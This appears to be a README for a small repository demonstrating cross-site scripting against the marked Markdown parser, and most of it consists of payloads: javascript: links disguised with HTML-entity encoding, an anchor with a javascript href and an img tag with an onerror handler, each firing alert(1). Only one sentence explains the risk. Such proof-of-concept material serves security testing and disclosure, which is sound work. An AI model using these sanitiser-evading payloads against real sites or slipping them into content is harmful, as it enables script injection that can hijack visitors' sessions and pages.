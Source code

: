# marked-expoit
Find expoit in marked trough README.md

This is a [A funny link](javascript&#x58document;alert&#40;1&#41);

I can try to use some <a href="javascript&#x58document;alert&#40;1&#41">HTML IN HERE AS WELL</a>


<img onerror="&#x58document;alert&#40;1&#41" src="foo.gif" />


If a malicious user could provide this input to the application javascript&#x58document;alert&#40;1&#41; resulting in a valid link, that when a user clicked it would execute alert(1).

[try me](javascript&#x58document;alert&#40;1&#41;)

[also try me](javascript:alert&#39;'boo'&#39;)
